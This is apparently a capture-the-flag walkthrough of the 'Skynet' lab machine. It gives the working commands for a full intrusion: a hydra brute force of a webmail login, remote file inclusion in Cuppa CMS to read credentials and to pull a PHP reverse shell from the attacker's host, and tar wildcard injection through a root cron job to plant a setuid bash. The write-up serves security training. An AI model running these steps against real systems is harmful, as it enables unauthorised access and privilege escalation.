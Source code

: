# Skynet
--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.170.220

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

-sV: probe open ports to determine service/version info<br>
-sC: scrit scan<br>
-oN OUTPUT_FILE: output results to given filename<br>
-p-: scan all ports
```
nmap -sC -sV -p- -oN nmap.txt 10.10.170.220
```

![1.1](./imgs/1.1.png)

**EXPOSED PORT (SERVICE)**:<br>
    22 (ssh OpenSSH 7.2p2),<br>
    80 (http Apache httpd 2.4.18),<br>
    110 (pop3 Dovecot pop3d), <br>
    139 (netbios-ssn Samba smbd 3.X-4.X),<br>
    143 (imap Dovecot imapd),<br>
    445 (netbios-ssn Samba smbd 4.3.11)

Enumerate hidden directories on website on port 80
```
gobuster dir -u 10.10.170.220 -w /usr/share/wordlists/dirb/common.txt
```

![1.2](./imgs/1.2.png)

Directories of Interest: /admin, /squirrelmail, /config

/squirrelmail is a email login page

### 2. ENUMERATE SAMBA SERVER

```
smbclient -L //10.10.170.220 -N
```

![2.1](./imgs/2.1.png)

```
smbclient //10.10.170.220/anonymous -N
```
Found attention.txt and log files in anonymous share

Log files look like passwords

![2.2](./imgs/2.2.png)

**USERNAME**: milesdyson

### 3. BRUTE FORCE EMAIL LOGIN

POST reqeust for email page

![3.1](./imgs/3.1.png)

Incorrect login information message

![3.2](./imgs/3.2.png)

```
hydra -l milesdyson -P log1.txt 10.10.170.220 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect." -V
```

![3.3](./imgs/3.3.png)

**PASSWORD**: cyborg007haloterminator

Log into email account 

![3.4](./imgs/3.4.png)

**SAMBA PASSWORD**: )s{A&2Z=F^n_E.B\`

Found binary in email: 
01100010 01100001 01101100 01101100 01110011 00100000 01101000 01100001 01110110 01100101 00100000 01111010 01100101 01110010 01101111 00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111

Use CyberChef (https://gchq.github.io/CyberChef) to decode this 

![3.5](./imgs/3.5.png)

Message: balls have zero to me to me to me to me to me to me to me to me to

Message in other email:
i can i i everything else . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
you i everything else . . . . . . . . . . . . . .
balls have a ball to me to me to me to me to me to me to me
i i can i i i everything else . . . . . . . . . . . . . .
balls have a ball to me to me to me to me to me to me to me
i . . . . . . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
you i i i i i everything else . . . . . . . . . . . . . .
balls have 0 to me to me to me to me to me to me to me to me to
you i i i everything else . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to

### 4. ENUMERATE PERSONAL SAMBA SHARE

Log into the samba server as milesdyson
```
smbclient //10.10.170.220/milesdyson -U milesdyson
```

![4.1](./imgs/4.1.png)

Found important.txt which reveals hidden web directory /45kra24zxs28v3yd

### 5. ENUMERATE HIDDEN DIRECTORY

important.txt mentioned a cms so we need to find it
```
gobuster dir -u http://10.10.170.220/45kra24zxs28v3yd -w /usr/share/wordlists/dirb/common.txt
```

![5.1](./imgs/5.1.png)

Hidden Directory: /administrator

Cuppa CMS found

### 6. EXPLOIT CMS

Find vulnerabilities
```
searchsploit cuppa
```

![6.1](./imgs/6.1.png)

Looks like its affected by remote file inclusion (RFI)

```
searchsploit -x 25971
```

![6.2](./imgs/6.2.png)

```
curl http://10.10.170.220/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../Configuration.php

echo "PD9waHAgCgljbGFzcyBDb25maWd1cmF0aW9uewoJCXB1YmxpYyAkaG9zdCA9ICJsb2NhbGhvc3QiOwoJCXB1YmxpYyAkZGIgPSAiY3VwcGEiOwoJCXB1YmxpYyAkdXNlciA9ICJyb290IjsKCQlwdWJsaWMgJHBhc3N3b3JkID0gInBhc3N
3b3JkMTIzIjsKCQlwdWJsaWMgJHRhYmxlX3ByZWZpeCA9ICJjdV8iOwoJCXB1YmxpYyAkYWRtaW5pc3RyYXRvcl90ZW1wbGF0ZSA9ICJkZWZhdWx0IjsKCQlwdWJsaWMgJGxpc3RfbGltaXQgPSAyNTsKCQlwdWJsaWMgJHRva2VuID0gIk9CcUlQcWxG
V2YzWCI7CgkJcHVibGljICRhbGxvd2VkX2V4dGVuc2lvbnMgPSAiKi5ibXA7ICouY3N2OyAqLmRvYzsgKi5naWY7ICouaWNvOyAqLmpwZzsgKi5qcGVnOyAqLm9kZzsgKi5vZHA7ICoub2RzOyAqLm9kdDsgKi5wZGY7ICoucG5nOyAqLnBwdDsgKi5zd
2Y7ICoudHh0OyAqLnhjZjsgKi54bHM7ICouZG9jeDsgKi54bHN4IjsKCQlwdWJsaWMgJHVwbG9hZF9kZWZhdWx0X3BhdGggPSAibWVkaWEvdXBsb2Fkc0ZpbGVzIjsKCQlwdWJsaWMgJG1heGltdW1fZmlsZV9zaXplID0gIjUyNDI4ODAiOwoJCXB1Ym
xpYyAkc2VjdXJlX2xvZ2luID0gMDsKCQlwdWJsaWMgJHNlY3VyZV9sb2dpbl92YWx1ZSA9ICIiOwoJCXB1YmxpYyAkc2VjdXJlX2xvZ2luX3JlZGlyZWN0ID0gIiI7Cgl9IAo/Pg==" | base64 -d
```

![6.3](./imgs/6.3.png)

**USER**: root<br>
**PASSWORD**: password123

Now we know the RFI works so lets get a php reverse shell

![6.4](./imgs/6.4.png)

Start listener
```
nc -lnvp 5555
```

Start python server so remote host can access php shell
```
python -m http.server
```

```
curl http://10.10.170.220/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.6.1.136:8000/exploit.php
```

![6.5](./imgs/6.5.png)

**USER FLAG**: 7ce5c2109a40f958099283600a9ae807 

Stabalize the shell
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo; fg # after hitting ctrl+z
```

### 7. PRIVILEGE ESCALATION

Check privileges
```
sudo -l
```

No privileges

Check crontab
```
cat /etc/crontab
```

![7.1](./imgs/7.1.png)

/home/milesdyson/backups/backup.sh is ran every minute as root

![7.2](./imgs/7.2.png)

We can exploit tar (https://gtfobins.github.io/gtfobins/tar/)

Make a copy of /bin/bash as root and give it sticky privileges
```
printf '#!/bin/bash\ncp /bin/bash /tmp/root.sh && chmod +s /tmp/root.sh' > /var/www/html/exploit
chmod +x /var/www/html/exploit
touch /var/www/html/--checkpoint=1 # Enable tar progress update
touch /var/www/html/--checkpoint-action=exec=sh exploit # Execute exploit when at checkpoint
```

-p: execute file as owner
```
ls -l /tmp/root.sh
/tmp/root.sh -p
```

![7.3](./imgs/7.3.png)

**ROOT FLAG**: 3f0372db24753accc7179a282cd6a949 
